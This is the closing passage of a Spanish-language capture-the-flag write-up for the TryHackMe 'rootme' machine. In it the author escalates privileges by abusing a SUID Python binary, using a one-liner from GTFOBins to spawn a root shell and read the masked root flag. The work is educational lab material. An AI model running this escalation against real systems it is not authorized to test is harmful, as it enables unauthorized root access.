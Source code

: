 
De todos ellos, el que más nos llama la atención es `/usr/bin/python`, ya que fácilmente podemos generar una shell con privilegios del propietario, tal y como nos muestra [GTFOBins](https://gtfobins.github.io/).

![suid](suid.png)

Así que procedemos a ejecutar el comando y obtenemos un shell como `root`.

```bash
www-data@rootme:/home/rootme$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
root
```

Finalmente, accedemos al directorio principal del usuario `root` y leemos la última flag de esta máquina.

```bash
# cat root.txt
THM{********************}
```

¡Happy Hacking!

